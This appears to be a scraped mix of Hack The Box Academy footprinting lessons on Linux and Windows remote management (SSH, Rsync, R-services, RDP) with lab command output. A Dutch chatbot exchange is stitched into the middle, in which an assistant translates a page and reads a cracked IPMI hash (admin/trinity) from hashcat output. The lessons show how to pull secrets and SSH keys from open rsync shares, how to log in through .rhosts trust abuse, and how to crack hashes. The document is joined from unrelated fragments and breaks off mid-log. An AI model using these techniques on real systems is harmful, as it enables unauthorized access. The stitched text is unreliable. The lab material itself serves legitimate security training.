versions had some vulnerabilities, such as CVE-2020-14145,

which allowed the attacker the capability to Man-In-The-Middle and

attack the initial connection attempt. The detailed output of the

connection setup with the OpenSSH server can also often provide

important information, such as which authentication methods the server

can use.


Change Authentication Method


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ ssh -v cry0l1t3@10.129.14.132OpenSSH_8.2p1 Ubuntu-4ubuntu0.3, OpenSSL 1.1.1f 31 Mar 2020

debug1: Reading configuration data /etc/ssh/ssh_config

...SNIP...

debug1: Authentications that can continue: publickey,password,keyboard-interactive

For potential brute-force attacks, we can specify the authentication method with the SSH client option PreferredAuthentications.


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ ssh -v cry0l1t3@10.129.14.132 -o PreferredAuthentications=passwordOpenSSH_8.2p1 Ubuntu-4ubuntu0.3, OpenSSL 1.1.1f 31 Mar 2020

debug1: Reading configuration data /etc/ssh/ssh_config

...SNIP...

debug1: Authentications that can continue: publickey,password,keyboard-interactive

debug1: Next authentication method: password


cry0l1t3@10.129.14.132's password:

Even with this obvious and secure service, we recommend setting up

our own OpenSSH server on our VM, experimenting with it, and

familiarizing ourselves with the different settings and options.

We may encounter various banners for the SSH server during our

penetration tests. By default, the banners start with the version of the

protocol that can be applied and then the version of the server itself.

For example, with SSH-1.99-OpenSSH_3.9p1, we know that we

can use both protocol versions SSH-1 and SSH-2, and we are dealing with

OpenSSH server version 3.9p1. On the other hand, for a banner with SSH-2.0-OpenSSH_8.2p1, we are dealing with an OpenSSH version 8.2p1 which only accepts the SSH-2 protocol version.

Rsync

Rsync

is a fast and efficient tool for locally and remotely copying files. It

can be used to copy files locally on a given machine and to/from remote

hosts. It is highly versatile and well-known for its delta-transfer

algorithm. This algorithm reduces the amount of data transmitted over

the network when a version of the file already exists on the destination

host. It does this by sending only the differences between the source

files and the older version of the files that reside on the destination

server. It is often used for backups and mirroring. It finds files that

need to be transferred by looking at files that have changed in size or

the last modified time. By default, it uses port 873 and can be configured to use SSH for secure file transfers by piggybacking on top of an established SSH server connection.

This guide

covers some of the ways Rsync can be abused, most notably by listing

the contents of a shared folder on a target server and retrieving files.

This can sometimes be done without authentication. Other times we will

need credentials. If you find credentials during a pentest and run into

Rsync on an internal (or external) host, it is always worth checking for

password re-use as you may be able to pull down some sensitive files

that could be used to gain remote access to the target.

Let's do a bit of quick footprinting. We can see that Rsync is in use using protocol 31.


Scanning for Rsync


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ sudo nmap -sV -p 873 127.0.0.1Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-19 09:31 EDT

Nmap scan report for localhost (127.0.0.1)

Host is up (0.0058s latency).


PORT STATE SERVICE VERSION

873/tcp open rsync (protocol version 31)


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds


Probing for Accessible Shares

We can next probe the service a bit to see what we can gain access to.


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ nc -nv 127.0.0.1 873(UNKNOWN) [127.0.0.1] 873 (rsync) open

@RSYNCD: 31.0

@RSYNCD: 31.0#listdev Dev Tools

@RSYNCD: EXIT


Enumerating an Open Share

Here we can see a share called dev, and we can enumerate it further.


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ rsync -av --list-only rsync://127.0.0.1/devreceiving incremental file list

drwxr-xr-x 48 2022/09/19 09:43:10 .

-rw-r--r-- 0 2022/09/19 09:34:50 build.sh

-rw-r--r-- 0 2022/09/19 09:36:02 secrets.yaml

drwx------ 54 2022/09/19 09:43:10 .ssh


sent 25 bytes received 221 bytes 492.00 bytes/sec

total size is 0 speedup is 0.00

From the above output, we can see a few interesting files that may be

worth pulling down to investigate further. We can also see that a

directory likely containing SSH keys is accessible. From here, we could

sync all files to our attack host with the command rsync -av rsync://127.0.0.1/dev. If Rsync is configured to use SSH to transfer files, we could modify our commands to include the -e ssh flag, or -e "ssh -p2222" if a non-standard port is in use for SSH. This guide is helpful for understanding the syntax for using Rsync over SSH.

R-Services

R-Services are a suite of services hosted to enable remote access or

issue commands between Unix hosts over TCP/IP. Initially developed by

the Computer Systems Research Group (CSRG) at the University of California, Berkeley, r-services were the de facto standard for remote access between Unix operating systems until they were replaced by the Secure Shell (SSH) protocols and commands due to inherent security flaws built into them. Much like telnet,

r-services transmit information from client to server(and vice versa.)

over the network in an unencrypted format, making it possible for

attackers to intercept network traffic (passwords, login information,

etc.) by performing man-in-the-middle (MITM) attacks.

R-services span across the ports 512, 513, and 514 and are only accessible through a suite of programs known as r-commands.

They are most commonly used by commercial operating systems such as

Solaris, HP-UX, and AIX. While less common nowadays, we do run into them

from time to time during our internal penetration tests so it is worth

understanding how to approach them.

The R-commands suite consists of the following programs:


rcp (remote copy)

rexec (remote execution)

rlogin (remote login)

rsh (remote shell)

rstat

ruptime

rwho (remote who)

Each command has its intended functionality; however, we will only cover the most commonly abused r-commands.

The table below will provide a quick overview of the most frequently

abused commands, including the service daemon they interact with, over

what port and transport method to which they can be accessed, and a

brief description of each.

CommandService DaemonPortTransport ProtocolDescriptionrcprshd514TCPCopy a file or directory bidirectionally from the local system to

the remote system (or vice versa) or from one remote system to another.

It works like the cp command on Linux but provides no warning to the user for overwriting existing files on a system.rshrshd514TCPOpens a shell on a remote machine without a login procedure. Relies upon the trusted entries in the /etc/hosts.equiv and .rhosts files for validation.rexecrexecd512TCPEnables a user to run shell commands on a remote machine. Requires authentication through the use of a username and password through an unencrypted network socket. Authentication is overridden by the trusted entries in the /etc/hosts.equiv and .rhosts files.rloginrlogind513TCPEnables a user to log in to a remote host over the network. It works similarly to telnet but can only connect to Unix-like hosts. Authentication is overridden by the trusted entries in the /etc/hosts.equiv and .rhosts files.

The /etc/hosts.equiv file contains a list of trusted hosts and is

used to grant access to other systems on the network. When users on one

of these hosts attempt to access the system, they are automatically

granted access without further authentication.


/etc/hosts.equiv


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ cat /etc/hosts.equiv# <hostname> <local username>

pwnbox cry0l1t3

Now that we have a basic understanding of r-commands, let's do some quick footprinting using Nmap to determine if all necessary ports are open.


Scanning for R-Services


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ sudo nmap -sV -p 512,513,514 10.0.17.2Starting Nmap 7.80 ( https://nmap.org ) at 2022-12-02 15:02 EST

Nmap scan report for 10.0.17.2

Host is up (0.11s latency).


PORT STATE SERVICE VERSION

512/tcp open exec?

513/tcp open login?

514/tcp open tcpwrapped


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 145.54 seconds


Access Control & Trusted Relationships

The primary concern for r-services, and one of the primary reasons SSH

was introduced to replace it, is the inherent issues regarding access

control for these protocols. R-services rely on trusted information sent

from the remote client to the host machine they are attempting to

authenticate to. By default, these services utilize Pluggable Authentication Modules (PAM) for user authentication onto a remote system; however, they also bypass this authentication through the use of the /etc/hosts.equiv and .rhosts files on the system. The hosts.equiv and .rhosts files contain a list of hosts (IPs or Hostnames) and users that are trusted by the local host when a connection attempt is made using r-commands. Entries in either file can appear like the following:


Note: The hosts.equiv file is recognized as the global configuration regarding all users on a system, whereas .rhosts provides a per-user configuration.


Sample .rhosts File


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ cat .rhostshtb-student 10.0.17.5

+ 10.0.17.10

+ +

As we can see from this example, both files follow the specific syntax of <username> <ip address> or <username> <hostname> pairs. Additionally, the + modifier can be used within these files as a wildcard to specify anything. In this example, the + modifier allows any external user to access r-commands from the htb-student user account via the host with the IP address 10.0.17.10.

Misconfigurations in either of these files can allow an attacker to

authenticate as another user without credentials, with the potential for

gaining code execution. Now that we understand how we can potentially

abuse misconfigurations in these files let's attempt to try logging into

a target host using rlogin.


Logging in Using Rlogin


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ rlogin 10.0.17.2 -l htb-studentLast login: Fri Dec 2 16:11:21 from localhost[htb-student@localhost ~]$

We have successfully logged in under the htb-student account on the remote host due to the misconfigurations in the .rhosts file. Once successfully logged in, we can also abuse the rwho command to list all interactive sessions on the local network by sending requests to the UDP port 513.


Listing Authenticated Users Using Rwho


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ rwhoroot web01:pts/0 Dec 2 21:34

htb-student workstn01:tty1 Dec 2 19:57 2:25

From this information, we can see that the htb-student user is currently authenticated to the workstn01 host, whereas the root user is authenticated to the web01

host. We can use this to our advantage when scoping out potential

usernames to use during further attacks on hosts over the network.

However, the rwho daemon periodically broadcasts information about logged-on users, so it might be beneficial to watch the network traffic.


Listing Authenticated Users Using Rusers

To provide additional information in conjunction with rwho, we can issue the rusers

command. This will give us a more detailed account of all logged-in

users over the network, including information such as the username,

hostname of the accessed machine, TTY that the user is logged in to, the

date and time the user logged in, the amount of time since the user

typed on the keyboard, and the remote host they logged in from (if

applicable).


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ rusers -al 10.0.17.5htb-student 10.0.17.5:console Dec 2 19:57 2:25

As we can see, R-services are less frequently used nowadays due to

their inherent security flaws and the availability of more secure

protocols such as SSH. To be a well-rounded information security

professional, we must have a broad and deep understanding of many

systems, applications, protocols, etc. So, file away this knowledge

about R-services because you never know when you may encounter them.

Final Thoughts

Remote management services can provide us with a treasure trove of

data and often be abused for unauthorized access through either

weak/default credentials or password re-use. We should always probe

these services for as much information as we can gather and leave no

stone unturned, especially when we have compiled a list of credentials

from elsewhere in the target network.


+10 Streak pts


Table of Contents


Introduction

Infrastructure Based Enumeration

Host Based Enumeration

Remote Management Protocols

Skills Assessment

My Workstation


OFFLINE


/ 1 spawns left


Hier is de vertaling van pagina 17 over Linux Remote Management Protocollen.
Linux Remote Management Protocollen

In de wereld van Linux-distributies zijn er veel manieren om servers op afstand te beheren. Stel je voor dat een werknemer bij een klant in een andere stad hulp nodig heeft bij een foutmelding. Probleemoplossing via de telefoon is vaak inefficiënt; het is dan veel handiger als we op afstand kunnen inloggen op het systeem.

Deze diensten zijn op bijna elke server in openbare netwerken te vinden. Ze besparen tijd omdat fysieke aanwezigheid niet vereist is. Voor penetratietesters zijn deze protocollen een interessant doelwit: bij een onjuiste configuratie kunnen we snel toegang krijgen tot het systeem.
SSH (Secure Shell)

SSH maakt een versleutelde en directe verbinding mogelijk tussen twee computers via de standaardpoort TCP 22. Dit voorkomt dat derden gegevensstromen onderscheppen.
SSH-1 vs SSH-2

    SSH-1: Verouderd en kwetsbaar voor Man-In-The-Middle (MITM) aanvallen.

    SSH-2: Geavanceerder, sneller en veiliger.

OpenSSH ondersteunt zes authenticatiemethoden, waaronder wachtwoorden en Public-Key authenticatie.
Public Key Authenticatie

Bij deze methode gebruikt men een sleutelpaar:

    Private Key: Staat op de computer van de gebruiker en is beveiligd met een wachtwoordzin (passphrase). Deze blijft altijd geheim.

    Public Key: Wordt op de server opgeslagen. De server stelt een cryptografisch probleem dat alleen met de bijbehorende private sleutel kan worden opgelost.

Gevaarlijke Instellingen

Sommige configuraties in sshd_config maken een server kwetsbaar:

    PasswordAuthentication yes: Maakt brute-force aanvallen mogelijk.

    PermitEmptyPasswords yes: Toegang zonder wachtwoord.

    PermitRootLogin yes: Direct inloggen als de krachtigste gebruiker (root).

    Protocol 1: Gebruik van de onveilige, oude versie.

Footprinting van de Dienst

Met tools zoals ssh-audit kunnen we de configuratie en gebruikte versleutelingsalgoritmen controleren om zwakheden te vinden.
Rsync

Rsync is een efficiënt hulpmiddel voor het lokaal en op afstand kopiëren van bestanden. Het gebruikt het delta-transfer algoritme, waarbij alleen de verschillen tussen bestanden worden verzonden.

    Standaardpoort: 873.

    Risico: Soms zijn shares (gedeelde mappen) toegankelijk zonder authenticatie.

Enumeratie voorbeeld:
Bash

# Gedeelde mappen weergeven
nc -nv 127.0.0.1 873
# Inhoud van een specifieke share (bijv. 'dev') bekijken
rsync -av --list-only rsync://127.0.0.1/dev

R-Services

R-Services (zoals rlogin, rsh en rcp) waren de voorlopers van SSH. Ze worden tegenwoordig zelden gebruikt omdat ze onversleuteld communiceren. Aanvallers kunnen wachtwoorden eenvoudig onderscheppen via een MITM-aanval.
Belangrijke commando's en poorten:
Commando	Poort	Beschrijving
rcp	514	Bestanden kopiëren tussen systemen.
rsh	514	Een shell openen zonder inlogprocedure (gebaseerd op vertrouwen).
rlogin	513	Inloggen op een remote host (vergelijkbaar met telnet).
rexec	512	Commando's uitvoeren op een remote machine.
Vertrouwensrelaties (.rhosts)

R-services vertrouwen vaak op de bestanden /etc/hosts.equiv en .rhosts. Als hier een + (wildcard) staat, mag iedereen zonder wachtwoord inloggen.
Laatste Gedachten

Remote management services zijn een goudmijn voor data. Ze kunnen vaak worden misbruikt door zwakke/standaard inloggegevens of door hergebruik van wachtwoorden. Laat geen middel onbeproefd tijdens een pentest, vooral als je elders in het netwerk al inloggegevens hebt buitgemaakt.

Zal ik je helpen met het opzetten van een SSH-audit scan op een van je targets?

nog even de username en wachtwoord waar stondendie want ik zie ze niet:                                                                                                                                                                                                                                             

┌──(kali㉿kali)-[~]

└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --username

hashcat (v7.1.2) starting


OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

====================================================================================================================================================

* Device #01: cpu-haswell-AMD Athlon 3000G with Radeon Vega Graphics, 2931/5862 MB (1024 MB allocatable), 4MCU


Minimum password length supported by kernel: 0

Maximum password length supported by kernel: 256

Minimum salt length supported by kernel: 0

Maximum salt length supported by kernel: 256


Hashes: 1 digests; 1 unique digests, 1 unique salts

Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Rules: 1


Optimizers applied:

* Zero-Byte

* Not-Iterated

* Single-Hash

* Single-Salt


ATTENTION! Pure (unoptimized) backend kernels selected.

Pure kernels can crack longer passwords, but drastically reduce performance.

If you want to switch to optimized kernels, append -O to your commandline.

See the above message to find out about the exact limits.


Watchdog: Temperature abort trigger set to 90c


Host memory allocated for this attack: 513 MB (3125 MB free)


Dictionary cache built:

* Filename..: /usr/share/wordlists/rockyou.txt

* Passwords.: 14344392

* Bytes.....: 139921507

* Keyspace..: 14344385

* Runtime...: 1 sec


8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348:trinity

                                                          

Session..........: hashcat

Status...........: Cracked

Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)

Hash.Target......: 8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa...662348

Time.Started.....: Fri Jan 23 08:47:45 2026 (0 secs)

Time.Estimated...: Fri Jan 23 08:47:45 2026 (0 secs)

Kernel.Feature...: Pure Kernel (password length 0-256 bytes)

Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)

Guess.Queue......: 1/1 (100.00%)

Speed.#01........:    36594 H/s (2.39ms) @ Accel:1024 Loops:1 Thr:1 Vec:8

Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)

Progress.........: 4096/14344385 (0.03%)

Rejected.........: 0/4096 (0.00%)

Restore.Point....: 0/14344385 (0.00%)

Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1

Candidate.Engine.: Device Generator

Candidates.#01...: 123456 -> oooooo

Hardware.Mon.#01.: Util: 27%


Started: Fri Jan 23 08:46:59 2026

Stopped: Fri Jan 23 08:47:46 2026

                                        

Geen probleem, ze staan een beetje verstopt tussen de technische data!

In de regel boven Session..........: hashcat zie je de volledige hash staan met het resultaat erachter geplakt. Omdat je de --username vlag gebruikte, heeft Hashcat het wachtwoord achter de laatste dubbele punt gezet.

Hier zijn ze:

    Username: admin (dit was de gebruiker die je uit de Metasploit dump haalde)

    Wachtwoord: trinity

Je vindt het hier in je tekst: ...61646d696e:0dc85343d79cd88893061d493b6686ba63662348:trinity
Hoe lees je de Hashcat output?

Wanneer een hash succesvol is gekrakt (Status: Cracked), herhaalt Hashcat de invoerregel maar voegt het gevonden wachtwoord toe aan het einde.

    Deel 1: De gebruikersnaam (admin).

    Deel 2: De zoute hash-data (die lange hex-reeks).

    Deel 3: Het gevonden wachtwoord (trinity).

Je kunt deze nu invullen in de HTB Academy om de module af te ronden.

Zal ik je helpen met de volgende opdracht over Linux Remote Management (SSH/Rsync)?


Dashboard


Modules


Paths


Footprinting

 


Page 18

Windows Remote Management Protocols


Windows Remote Management Protocols

Windows servers can be managed locally using Server Manager

administration tasks on remote servers. Remote management is enabled by

default starting with Windows Server 2016. Remote management is a

component of the Windows hardware management features that manage server

hardware locally and remotely. These features include a service that

implements the WS-Management protocol, hardware diagnostics and control

through baseboard management controllers, and a COM API and script

objects that enable us to write applications that communicate remotely

through the WS-Management protocol.

The main components used for remote management of Windows and Windows servers are the following:


Remote Desktop Protocol (RDP)

Windows Remote Management (WinRM)

Windows Management Instrumentation (WMI)

RDP

The Remote Desktop Protocol (RDP)

is a protocol developed by Microsoft for remote access to a computer

running the Windows operating system. This protocol allows display and

control commands to be transmitted via the GUI encrypted over IP

networks. RDP works at the application layer in the TCP/IP reference

model, typically utilizing TCP port 3389 as the transport protocol.

However, the connectionless UDP protocol can use port 3389 also for

remote administration.

For an RDP session to be established, both the network firewall and

the firewall on the server must allow connections from the outside. If Network Address Translation (NAT)

is used on the route between client and server, as is often the case

with Internet connections, the remote computer needs the public IP

address to reach the server. In addition, port forwarding must be set up

on the NAT router in the direction of the server.

RDP has handled Transport Layer Security (TLS/SSL)

since Windows Vista, which means that all data, and especially the

login process, is protected in the network by its good encryption.

However, many Windows systems do not insist on this but still accept

inadequate encryption via RDP Security.

Nevertheless, even with this, an attacker is still far from being

locked out because the identity-providing certificates are merely

self-signed by default. This means that the client cannot distinguish a

genuine certificate from a forged one and generates a certificate

warning for the user.

The Remote Desktop service is installed by default on

Windows servers and does not require additional external applications.

This service can be activated using the Server Manager and comes with the default setting to allow connections to the service only to hosts with Network level authentication (NLA).

Footprinting the Service

Scanning the RDP service can quickly give us a lot of information about the host. For example, we can determine if NLA is enabled on the server or not, the product version, and the hostname.


Nmap


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ nmap -sV -sC 10.129.201.248 -p3389 --script rdp*Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-06 15:45 CET

Nmap scan report for 10.129.201.248

Host is up (0.036s latency).


PORT STATE SERVICE VERSION

3389/tcp open ms-wbt-server Microsoft Terminal Services

| rdp-enum-encryption:

| Security layer

| CredSSP (NLA): SUCCESS

| CredSSP with Early User Auth: SUCCESS

|_ RDSTLS: SUCCESS

| rdp-ntlm-info:

| Target_Name: ILF-SQL-01

| NetBIOS_Domain_Name: ILF-SQL-01

| NetBIOS_Computer_Name: ILF-SQL-01

| DNS_Domain_Name: ILF-SQL-01

| DNS_Computer_Name: ILF-SQL-01

| Product_Version: 10.0.17763

|_ System_Time: 2021-11-06T13:46:00+00:00

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 8.26 seconds

In addition, we can use --packet-trace to track the individual packages and inspect their contents manually. We can see that the RDP cookies (mstshash=nmap) used by Nmap to interact with the RDP server can be identified by threat hunters and various security services such as Endpoint Detection and Response (EDR), and can lock us out as penetration testers on hardened networks.


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ nmap -sV -sC 10.129.201.248 -p3389 --packet-trace --disable-arp-ping -nStarting Nmap 7.92 ( https://nmap.org ) at 2021-11-06 16:23 CET

SENT (0.2506s) ICMP [10.10.14.20 > 10.129.201.248 Echo request (type=8/code=0) id=8338 seq=0] IP [ttl=53 id=5122 iplen=28 ]

SENT (0.2507s) TCP 10.10.14.20:55516 > 10.129.201.248:443 S ttl=42 id=24195 iplen=44 seq=1926233369 win=1024 <mss 1460>

SENT (0.2507s) TCP 10.10.14.20:55516 > 10.129.201.248:80 A ttl=55 id=50395 iplen=40 seq=0 win=1024

SENT (0.2517s) ICMP [10.10.14.20 > 10.129.201.248 Timestamp request (type=13/code=0) id=8247 seq=0 orig=0 recv=0 trans=0] IP [ttl=38 id=62695 iplen=40 ]

RCVD (0.2814s) ICMP [10.129.201.248 > 10.10.14.20 Echo reply (type=0/code=0) id=8338 seq=0] IP [ttl=127 id=38158 iplen=28 ]

SENT (0.3264s) TCP 10.10.14.20:55772 > 10.129.201.248:3389 S ttl=56 id=274 iplen=44 seq=2635590698 win=1024 <mss 1460>

RCVD (0.3565s) TCP 10.129.201.248:3389 > 10.10.14.20:55772 SA ttl=127 id=38162 iplen=44 seq=3526777417 win=64000 <mss 1357>NSOCK INFO [0.4500s] nsock_iod_new2(): nsock_iod_new (IOD #1)NSOCK INFO [0.4500s] nsock_connect_tcp(): TCP connection requested to 10.129.201.248:3389 (IOD #1) EID 8NSOCK INFO [0.4820s] nsock_trace_handler_callback(): Callback: CONNECT SUCCESS for EID 8 [10.129.201.248:3389]

Service scan sending probe NULL to 10.129.201.248:3389 (tcp)NSOCK INFO [0.4830s] nsock_read(): Read request from IOD #1 [10.129.201.248:3389] (timeout: 6000ms) EID 18NSOCK INFO [6.4880s] nsock_trace_handler_callback(): Callback: READ TIMEOUT for EID 18 [10.129.201.248:3389]

Service scan sending probe TerminalServerCookie to 10.129.201.248:3389 (tcp)NSOCK INFO [6.4880s] nsock_write(): Write request for 42 bytes to IOD #1 EID 27 [10.129.201.248:3389]NSOCK INFO [6.4880s] nsock_read(): Read request from IOD #1 [10.129.201.248:3389] (timeout: 5000ms) EID 34NSOCK INFO [6.4880s] nsock_trace_handler_callback(): Callback: WRITE SUCCESS for EID 27 [10.129.201.248:3389]

NSOCK INFO [6.5240s] nsock_trace_handler_callback(): Callback: READ SUCCESS for EID 34 [10.129.201.248:3389] (19 bytes): .........4.........

Service scan match (Probe TerminalServerCookie matched with TerminalServerCookie line 13640): 10.129.201.248:3389 is ms-wbt-server. Version: |Microsoft Terminal Services|||


...SNIP...NSOCK INFO [6.5610s] nsock_write(): Write request for 54 bytes to IOD #1 EID 27 [10.129.201.248:3389]NSE: TCP 10.10.14.20:36630 > 10.129.201.248:3389 | 00000000: 03 00 00 2a 25 e0 00 00 00 00 00 43 6f 6f 6b 69 *% Cooki

00000010: 65 3a 20 6d 73 74 73 68 61 73 68 3d 6e 6d 61 70 e: mstshash=nmap

00000020: 0d 0a 01 00 08 00 0b 00 00 00


...SNIP...NSOCK INFO [6.6820s] nsock_write(): Write request for 57 bytes to IOD #2 EID 67 [10.129.201.248:3389]NSOCK INFO [6.6820s] nsock_trace_handler_callback(): Callback: WRITE SUCCESS for EID 67 [10.129.201.248:3389]

NSE: TCP 10.10.14.20:36630 > 10.129.201.248:3389 | SENDNSOCK INFO [6.6820s] nsock_read(): Read request from IOD #2 [10.129.201.248:3389] (timeout: 5000ms) EID 74NSOCK INFO [6.7180s] nsock_trace_handler_callback(): Callback: READ SUCCESS for EID 74 [10.129.201.248:3389] (211 bytes)

NSE: TCP 10.10.14.20:36630 < 10.129.201.248:3389 |

00000000: 30 81 d0 a0 03 02 01 06 a1 81 c8 30 81 c5 30 81 0 0 0

00000010: c2 a0 81 bf 04 81 bc 4e 54 4c 4d 53 53 50 00 02 NTLMSSP

00000020: 00 00 00 14 00 14 00 38 00 00 00 35 82 8a e2 b9 8 5

00000030: 73 b0 b3 91 9f 1b 0d 00 00 00 00 00 00 00 00 70 s p

00000040: 00 70 00 4c 00 00 00 0a 00 63 45 00 00 00 0f 49 p L cE I

00000050: 00 4c 00 46 00 2d 00 53 00 51 00 4c 00 2d 00 30 L F - S Q L - 0

00000060: 00 31 00 02 00 14 00 49 00 4c 00 46 00 2d 00 53 1 I L F - S

00000070: 00 51 00 4c 00 2d 00 30 00 31 00 01 00 14 00 49 Q L - 0 1 I

00000080: 00 4c 00 46 00 2d 00 53 00 51 00 4c 00 2d 00 30 L F - S Q L - 0

00000090: 00 31 00 04 00 14 00 49 00 4c 00 46 00 2d 00 53 1 I L F - S

000000a0: 00 51 00 4c 00 2d 00 30 00 31 00 03 00 14 00 49 Q L - 0 1 I

000000b0: 00 4c 00 46 00 2d 00 53 00 51 00 4c 00 2d 00 30 L F - S Q L - 0

000000c0: 00 31 00 07 00 08 00 1d b3 e8 f2 19 d3 d7 01 00 1

000000d0: 00 00 00


...SNIP...

A Perl script named rdp-sec-check.pl has also been developed by Cisco CX Security Labs that can unauthentically identify the security settings of RDP servers based on the handshakes.


RDP Security Check - Installation


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ sudo cpanLoading internal logger. Log::Log4perl recommended for better logging


CPAN.pm requires configuration, but most of it can be done automatically.

If you answer 'no' below, you will enter an interactive dialog for each

configuration option instead.


Would you like to configure as much as possible automatically? [yes] yes


Autoconfiguration complete.


commit: wrote '/root/.cpan/CPAN/MyConfig.pm'


You can re-run configuration any time with 'o conf init' in the CPAN shell


cpan shell -- CPAN exploration and modules installation (v2.27)

Enter 'h' for help.


cpan[1]> install Encoding::BER


Fetching with LWP:

http://www.cpan.org/authors/01mailrc.txt.gz

Reading '/root/.cpan/sources/authors/01mailrc.txt.gz'

............................................................................DONE

...SNIP...


RDP Security Check


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-checkleonwintweer@htb[/htb]$ ./rdp-sec-check.pl 10.129.201.248Starting rdp-sec-check v0.9-beta ( http://labs.portcullis.co.uk/application/rdp-sec-check/ ) at Sun Nov 7 16:50:32 2021


[+] Scanning 1 hosts


Target: 10.129.201.248

IP: 10.129.201.248

Port: 3389


[+] Checking supported protocols


[-] Checking if RDP Security (PROTOCOL_RDP) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER

[-] Checking if TLS Security (PROTOCOL_SSL) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER

[-] Checking if CredSSP Security (PROTOCOL_HYBRID) is supported [uses NLA]...Supported


[+] Checking RDP Security Layer


[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_NONE...Not supported

[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_40BIT...Not supported

[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_128BIT...Not supported

[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_56BIT...Not supported

[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_FIPS...Not supported


[+] Summary of protocol support


[-] 10.129.201.248:3389 supports PROTOCOL_SSL : FALSE

[-] 10.129.201.248:3389 supports PROTOCOL_HYBRID: TRUE

[-] 10.129.201.248:3389 supports PROTOCOL_RDP : FALSE


[+] Summary of RDP encryption support


[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_NONE : FALSE

[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_40BIT : FALSE

[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_128BIT : FALSE

[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_56BIT : FALSE

[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_FIPS : FALSE


[+] Summary of security issues


rdp-sec-check v0.9-beta completed at Sun Nov 7 16:50:33 2021

Authentication and connection to such RDP servers can be made in

several ways. For example, we can connect to RDP servers on Linux using xfreerdp, rdesktop, or Remmina and interact with the GUI of the server accordingly.


Initiate an RDP Session


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248[16:37:47:135] [95319:95320] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state

[16:37:47:135] [95319:95320] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr

[16:37:47:135] [95319:95320] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd

[16:37:47:135] [95319:95320] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr

[16:37:47:447] [95319:95320] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized

[16:37:47:453] [95319:95320] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state

[16:37:47:453] [95319:95320] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state

[16:37:47:523] [95319:95320] [INFO][com.freerdp.crypto] - creating directory /home/cry0l1t3/.config/freerdp

[16:37:47:523] [95319:95320] [INFO][com.freerdp.crypto] - creating directory [/home/cry0l1t3/.config/freerdp/certs]

[16:37:47:523] [95319:95320] [INFO][com.freerdp.crypto] - created directory [/home/cry0l1t3/.config/freerdp/server]

[16:37:47:599] [95319:95320] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0

[16:37:47:599] [95319:95320] [WARN][com.freerdp.crypto] - CN = ILF-SQL-01

[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - @ WARNING: CERTIFICATE NAME MISMATCH! @

[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.129.201.248:3389)

[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:

[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - Common Name (CN):

